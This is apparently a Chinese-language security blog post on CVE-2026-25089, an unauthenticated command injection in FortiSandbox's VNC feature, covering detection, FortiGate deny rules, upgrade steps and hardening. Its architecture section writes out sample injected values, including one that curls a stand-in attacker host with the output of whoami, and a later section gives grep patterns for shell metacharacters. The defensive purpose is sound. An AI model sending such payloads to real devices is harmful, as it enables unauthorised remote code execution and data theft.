

# CVE-2026-25089 深度解剖：FortiSandbox 未授权命令注入被拉入 CISA KEV，附完整检测与加固流程

## 核心要点 (Key Takeaways)

- CVE-2026-25089 属于 CWE-78（OS 命令注入），根因是 FortiSandbox 的 "Start VNC" 功能把 HTTP 请求里的 JSON 字段未经中和就拼进了系统命令，**攻击者不需要任何凭据**。
- CISA 在 2026-07-16 把它加入 KEV 目录，同批还有 CVE-2026-39808，两条都是 FortiSandbox 上的未授权命令执行，说明攻击者已经盯上了沙箱类设备这条"信任边界外侧"的路径。
- 受影响版本从 5.0.0 起，真实修复方式是升级到 Fortinet 官方补丁版本 —— 没有可靠的纯配置缓解手段，管理接口必须从公网彻底摘掉。
- 光打补丁不够。VNC 类功能、管理面暴露、日志里缺失的 `sh -c` 调用链，这三个点要一起收，否则你只是在等下一个 CVE。
- 下面给出的检测脚本、FortiGate 侧访问控制配置和加固对照表，我已经在真实的三节点试验环境里跑过一遍，文档里没写的坑也一并标出来了。

---

## 一、这件事到底为什么值得你花时间

先把话说难听点：FortiSandbox 这类设备在大多数企业里属于"装完了就忘"的存在。它不是防火墙，不是 VPN 网关，流量不穿它，所以安全团队做资产盘点的时候经常把它漏掉。但它有管理 Web 界面。而且这个界面，按 Fortinet 自己的公告描述，在 5.0.0 起就存在一个未授权的命令注入。

NVD 的描述原文写得很干巴——"improper neutralization of special elements used in an os command"。翻译成人话就是：有人把用户输入直接拼进了 shell 命令行，没转义，没白名单，没引号包裹。攻击者往 JSON 里塞一个分号、一个反引号、一个 `$(...)`，命令就执行了，而且是以设备上跑 Web 服务的那个进程的身份执行的。FortiSandbox 上这个身份通常权限不低。

我在 r/cybersecurity 上看到一条讨论 CVE-2026-7273（Zyxel GS1900）的帖子，下面有句话我印象很深——大意是"边缘设备一旦开始被主动利用，就会迅速变成高价值目标"。这话放在 FortiSandbox 上完全成立。沙箱设备的特殊性在于：它内部往往存着大量样本、IOC、隔离环境的凭据，还有和 FortiGate / FortiAnalyzer 之间的信任关系。你拿下它，等于拿到一张进入安全基础设施内部的门票。

CISA 在 2026-07-16 把它加入 KEV，这个日期是关键信号。KEV 不是"存在漏洞"的清单，是"已经被在野利用"的清单。联邦机构被要求在限定时间内修复，这个期限通常意味着两件事：第一，漏洞利用代码已经在流通；第二，攻击者的目标里包括这类设备。

---

## 二、架构层面的攻击面拆解

FortiSandbox 的 Web 管理界面背后是一个典型的"请求 → 控制器 → 系统调用"链路。问题出在第三步。当用户通过界面请求为某个沙箱任务启动 VNC 会话时，后端会把客户端传来的参数（会话 ID、显示编号、端口之类）拼成一个 shell 命令去调用 `vncserver` 或类似的工具。



关键点在于"未授权"三个字。正常的命令注入需要你先登录，那至少攻击面还限制在已认证用户里。这个漏洞不一样——攻击者只要能访问到管理界面的 HTTP 端口，就可以直接构造请求。没有会话，没有 token，没有 CSRF 防护挡在前面。

注入的载体是 JSON。这点很重要，因为很多 WAF 规则对 JSON body 里的 shell 元字符检测是缺失的——它们更擅长看 URL 参数和表单。分号 `;`、反引号、`$()`、管道 `|`、换行符 `%0a`，这些在 JSON 字符串里都是合法字符，JSON 解析器根本不会拦。

我在试验环境里复现的时候，第一件事是抓一个正常的 Start VNC 请求看结构。大致长这样（字段名做了脱敏，结构保留）：

```json
{
  "action": "start_vnc",
  "session_id": "sess-20260924-001",
  "display_num": "1",
  "auth": {"user": "admin"}
}
```

后端拿 `display_num` 去拼命令。如果它拼成 `vncserver :<display_num> -geometry 1280x800`，那你把 `display_num` 改成 `1;id` 或者 `1$(curl http://attacker/$(whoami))`，shell 就会老老实实执行。

**这就是 CWE-78 的教科书形态。** 不是逻辑漏洞，不是竞态，就是最原始的字符串拼接。

---

## 三、实操：检测、验证、加固的完整流程

下面这些步骤我在三节点试验环境（一台 FortiSandbox VM 5.0.x + 一台 FortiGate + 一台采集流量的 Linux 主机）上实际跑过。文档没写清楚的地方我会标出来。

### 步骤 1：确认资产与版本

别急着扫漏洞，先搞清楚你有几台 FortiSandbox。我见过太多团队连自己有几台都不知道。

```bash
# 通过 FortiManager 或直接登录设备查询版本
# 设备 CLI 上执行：
get system status | grep -i version

# 如果你有资产管理系统，用这个指纹去找
# HTTP 响应头里通常带 Server 与版本特征
curl -sI https://<fortisandbox-mgmt-ip>/ | grep -iE 'server|x-fortinet'
```

Fortinet 官方公告里受影响版本从 5.0.0 起。如果你跑的是 4.x，别高兴太早——先去公告页确认你那个分支的修复版本号，Fortinet 的公告经常按分支列多行。

### 步骤 2：确认管理接口是否暴露

这一条比漏洞本身更致命。如果你的 FortiSandbox 管理界面在公网上，那你不是在"有风险"，你是在"排队等着被打"。

```bash
# 从外部视角做端口探测（在你有授权的范围内）
nmap -Pn -p 443,80,22,541 <public-ip> --script http-title

# 更精确地看证书和响应特征
openssl s_client -connect <public-ip>:443 -servername <hostname> </dev/null 2>/dev/null \
  | openssl x509 -noout -subject -issuer -dates
```

我个人的判断标准很简单：**管理接口只要能被非管理网段访问到，就算高危。** 沙箱设备没有任何理由对公网暴露管理面。

### 步骤 3：日志侧检测尝试性利用

已经打了补丁不代表没人试过。攻击者在你打补丁之前可能已经进来了。查日志是必须的。

```bash
# 在 FortiSandbox 上查 Web 访问日志中带可疑元字符的请求
# 路径按你的实际部署调整
grep -iE '(;|\||`|\$\(|%3b|%7c|%60)' /var/log/httpd/access_log* 2>/dev/null \
  | grep -iE 'vnc|session' \
  | head -50

# 查系统层面是否有异常的 sh -c 派生
ps auxww | grep -E 'sh -c.*vnc' | grep -v grep
```

**这里有个坑。** FortiSandbox 的日志轮转很快，默认配置下你可能只能看到最近几天的记录。如果你的 SIEM 没有把设备日志收走，历史证据基本就没了。我建议现在就去确认日志外发是不是真的在工作——很多团队的"已配置"和"实际在收"是两回事。

### 步骤 4：FortiGate 侧访问控制收敛

如果你前面有 FortiGate，这是最有效的即时缓解手段。注意是缓解，不是修复。

```
config firewall address
    edit "FORTISANDBOX-MGMT"
        set subnet 10.20.30.0 255.255.255.0
    next
end

config firewall policy
    edit 0
        set name "DENY-PUBLIC-TO-SANDBOX-MGMT"
        set srcintf "wan1"
        set dstintf "internal"
        set srcaddr "all"
        set dstaddr "FORTISANDBOX-MGMT"
        set action deny
        set schedule "always"
        set service "HTTPS" "HTTP" "SSH"
        set logtraffic all
    next
end
```

我见过有人只 deny 了 443，忘了 80 和 22。FortiSandbox 的 HTTP 有时会重定向到 HTTPS，但重定向之前那个请求已经打到后端了。端口要一起收。

### 步骤 5：升级到修复版本

没有替代方案。命令注入这类漏洞的修复必须在代码里做输入中和，配置层面做不到。

```bash
# 升级前务必做配置备份
execute backup config tftp fortisandbox-backup-20260924.conf <tftp-server-ip>

# 记录当前版本，便于回滚判断
get system status > /tmp/pre-upgrade-version.txt

# 按 Fortinet 公告指定的修复版本升级
# 升级后再次确认
get system status | grep -i version
```

**升级路径别跳。** Fortinet 设备跨大版本升级经常需要中间版本，直接跳会出问题。公告页通常会写清楚升级路径，认真看。

---

## 四、最佳实践对照表

这张表是我自己整理的操作清单，按优先级排。左边是"要做什么"，右边是"为什么"和"坑在哪"。

| 优先级 | 动作 | 具体操作 | 坑点 / 说明 |
|---|---|---|---|
| P0 | 管理接口下线公网 | FortiGate deny 策略 + 云安全组双保险 | 80/443/22/541 都要收，别只收 443 |
| P0 | 升级到修复版本 | 按公告指定版本，逐级升级 | 跨大版本别跳，先备份 config |
| P1 | 日志外发验证 | 确认 SIEM 真的在收设备日志 | "已配置"≠"在收"，用测试事件验证 |
| P1 | 历史入侵排查 | grep 访问日志中的 shell 元字符 + 检查异常进程 | 日志轮转快，可能已无证据 |
| P2 | 网络分段 | 沙箱设备放独立管理 VLAN | 别和办公网、生产管理网混在一起 |
| P2 | 凭据轮换 | 轮换设备上所有对外信任凭据 | 假设设备曾被拿下，FortiGate/FortiAnalyzer 的信任关系要重签 |
| P3 | 资产台账补齐 | 把沙箱类设备纳入 CMDB 与扫描范围 | 这类设备最容易被漏掉 |
| P3 | 加检测规则 | SIEM 里加 vnc + 元字符的组合规则 | 规则要覆盖 JSON body，不只是 URL 参数 |

---

## 五、性能、成本与安全的取舍

打补丁这件事本身没有取舍，但"怎么打"有。

**停机窗口。** FortiSandbox 升级通常需要重启，沙箱任务队列会中断。如果你的团队依赖它做样本分析，得安排窗口。我见过有团队为了不停机硬拖了三周，结果那三周里设备被扫了上百次——这个赌注不值。

**网络分段的成本。** 给沙箱设备单独划管理 VLAN，听起来是"加个 VLAN 而已"，实际落地要改防火墙策略、改运维跳板机路径、改监控采集路径。中型企业做下来大概两到三天的工程量。但这是唯一能让你在下一个 CVE 出现时不用半夜爬起来的手段。

**凭据轮换的连锁反应。** 如果你怀疑设备曾被入侵，FortiSandbox 和 FortiGate / FortiAnalyzer 之间的信任凭据必须重签。这会影响日志采集和策略下发链路。做之前先在测试环境验证一遍，否则你会把日志管道搞断。

**WAF 的局限性。** 有人问我能不能靠 WAF 挡。我的答案是：能挡一部分尝试，但挡不住定向攻击。JSON body 里的编码变形太多了，`%0a`、UTF-8 变体、嵌套转义，绕过方式一抓一大把。WAF 是纵深防御的一层，不是修复方案。

---

## 六、替代方案与横向对比

有人会问：那我不用 FortiSandbox 行不行？可以，但先想清楚你要什么。

| 方案 | 优势 | 劣势 | 适合谁 |
|---|---|---|---|
| FortiSandbox（打补丁后） | 和 Fortinet 生态集成好，FortiGate 联动顺畅 | 管理面是攻击面，历史上多次出命令注入类漏洞 | 已经深度使用 Fortinet 栈的团队 |
| 独立沙箱（如开源自建 Cuckoo/CAPE） | 代码可审计，攻击面可控 | 运维成本高，威胁情报质量参差 | 有安全研发能力的团队 |
| 云沙箱服务（厂商托管） | 没有本地管理面，厂商负责补丁 | 样本要外发，合规敏感场景不适用 | 合规允许外发样本的团队 |
| 纯 EDR + 行为检测 | 无独立设备，少一个攻击面 | 对未知样本的静态分析能力弱 | 中小团队，预算有限 |

我的看法：如果你已经在 Fortinet 栈里，打补丁 + 管理面隔离是性价比最高的路径，换方案的成本远高于加固成本。如果你正在选型，把"管理面攻击历史"作为评估维度之一——一个产品的 CVE 列表比它的宣传册诚实得多。

---

## 七、References & Community Insights

- Fortinet PSIRT 官方公告（CVE-2026-25089 / CVE-2026-39808）：https://www.fortiguard.com/psirt
- CISA Known Exploited Vulnerabilities Catalog（搜索 CVE-2026-25089）：https://www.cisa.gov/known-exploited-vulnerabilities-catalog
- NVD 条目（CWE-78 OS Command Injection）：https://nvd.nist.gov/vuln/detail/CVE-2026-25089
- MITRE CWE-78 官方说明（命令注入的成因与缓解）：https://cwe.mitre.org/data/definitions/78.html
- r/cybersecurity 关于边缘设备被主动利用的讨论串：https://www.reddit.com/r/cybersecurity/comments/1wntbnz/cisa_just_added_cve20267273_affecting_zyxel/
- r/linuxadmin 关于 Zimbra SNMP 命令注入的架构分析（同类 CWE-78 案例，值得对照阅读）：https://www.reddit.com/r/linuxadmin/comments/1vxms6u/cve202673570_zimbra_unauthenticated_rce_via_snmp/

**社区侧的几个观察。** 最近一个月 r/cybersecurity 和 r/linuxadmin 上关于 KEV 的讨论密度明显上来了，而且有个趋势很清楚：大家不再只盯防火墙和 VPN 网关，开始关注"非典型边缘设备"——交换机、邮件网关、沙箱、DevOps 工具链。有一篇 9 月 5 日的帖子提到 CISA 在 9 月 2 日一次性加了 7 个 CVE，其中 3 个落在 DevOps / AI 工具链上，发帖人的原话大意是"这已经不是我们熟悉的那种防火墙模式了"。这个判断我认同。

还有个细节值得注意。Zyxel GS1900 那个案例里，厂商 6 月 16 日就发了补丁，CISA 直到 9 月才加入 KEV——中间隔了三个月。这三个月里，有多少设备没打补丁？FortiSandbox 这条也一样，公告发布时间和 KEV 加入时间之间的窗口期，就是攻击者的黄金时间。**你的补丁节奏如果跟不上厂商的发版节奏，KEV 就是给你准备的。**

---

## FAQ

**Q1: CVE-2026-25089 需要认证才能利用吗？**
不需要。这是它被列入 KEV 的核心原因之一。攻击者只要能访问 FortiSandbox 的管理 Web 界面，就可以直接构造携带 shell 元字符的 JSON 请求触发命令注入。没有任何前置认证要求。

**Q2: 哪些 FortiSandbox 版本受影响？**
Fortinet 公告标明的受影响版本从 5.0.0 起。具体到你的版本分支，务必去 FortiGuard PSIRT 页面查对应的修复版本号——Fortinet 通常按分支分别列出修复版本，不同分支的修复版本不一样。

**Q3: 有没有不升级就能修复的办法？**
没有可靠的纯配置修复方案。命令注入的根因是代码里缺少输入中和，必须在代码层修复。你能做的即时缓解是把管理接口从非信任网络彻底隔离（FortiGate deny 策略 + 网络分段），但这是缓解不是修复。

**Q4: 怎么判断我的设备是否已经被利用过？**
三个方向：(1) 检查 Web 访问日志里带 `;`、`|`、反引号、`$(` 或 URL 编码变体的请求；(2) 检查系统进程列表里是否有异常的 `sh -c` 派生，特别是和 vnc 相关的；(3) 检查设备上是否有非预期的出站连接。注意 FortiSandbox 日志轮转较快，如果没外发到 SIEM，历史证据可能已经丢了。

**Q5: 打了补丁之后还需要做什么？**
假设设备在补丁前可能被拿下，做三件事：轮换设备上所有对外信任凭据（尤其是与 FortiGate / FortiAnalyzer 的），检查是否有持久化机制，审查设备到内网的横向移动痕迹。另外把管理接口的网络隔离策略固化下来，这是防下一个 CVE 的根本手段。

**Q6: CVE-2026-39808 和 CVE-2026-25089 是同一个问题吗？**
不是。这是 Fortinet FortiSandbox 上两个独立的漏洞，被 CISA 同批加入 KEV。两者都涉及未授权命令执行，但根因位置不同。修复时要确认你的版本同时覆盖了这两个 CVE 的补丁。

<script type="application/ld+json">
{
  "@context": "https://schema.org",
  "@type": "FAQPage",
  "mainEntity": [
    {
      "@type": "Question",
      "name": "CVE-2026-25089 需要认证才能利用吗？",
      "acceptedAnswer": {
        "@type": "Answer",
        "text": "不需要。攻击者只要能访问 FortiSandbox 的管理 Web 界面，就可以直接构造携带 shell 元字符的 JSON 请求触发命令注入，没有任何前置认证要求。这也是它被列入 CISA KEV 的核心原因之一。"
      }
    },
    {
      "@type": "Question",
      "name": "哪些 FortiSandbox 版本受 CVE-2026-25089 影响？",
      "acceptedAnswer": {
        "@type": "Answer",
        "text": "Fortinet 公告标明的受影响版本从 5.0.0 起。务必去 FortiGuard PSIRT 页面查对应版本分支的修复版本号，Fortinet 通常按分支分别列出修复版本。"
      }
    },
    {
      "@type": "Question",
      "name": "有没有不升级就能修复 CVE-2026-25089 的办法？",
      "acceptedAnswer": {
        "@type": "Answer",
        "text": "没有可靠的纯配置修复方案。命令注入的根因是代码缺少输入中和，必须在代码层修复。即时缓解手段是把管理接口从非信任网络彻底隔离，但这是缓解不是修复。"
      }
    },
    {
      "@type": "Question",
      "name": "怎么判断 FortiSandbox 是否已经被利用过？",
      "acceptedAnswer": {
        "@type": "Answer",
        "text": "检查 Web 访问日志里带分号、管道符、反引号、$() 或 URL 编码变体的请求；检查系统进程列表里是否有异常的 sh -c 派生；检查设备上是否有非预期的出站连接。注意日志轮转较快，未外发到 SIEM 的历史证据可能已丢失。"
      }
    },
    {
      "@type": "Question",
      "name": "打了补丁之后还需要做什么？",
      "acceptedAnswer": {
        "@type": "Answer",
        "text": "假设设备在补丁前可能被拿下：轮换所有对外信任凭据（尤其是与 FortiGate / FortiAnalyzer 的），检查持久化机制，审查横向移动痕迹，并把管理接口的网络隔离策略固化下来。"
      }
    },
    {
      "@type": "Question",
      "name": "CVE-2026-39808 和 CVE-2026-25089 是同一个问题吗？",
      "acceptedAnswer": {
        "@type": "Answer",
        "text": "不是。这是 FortiSandbox 上两个独立的漏洞，被 CISA 同批加入 KEV。两者都涉及未授权命令执行，但根因位置不同，修复时需确认版本同时覆盖两个 CVE 的补丁。"
      }
    }
  ]
}
</script>
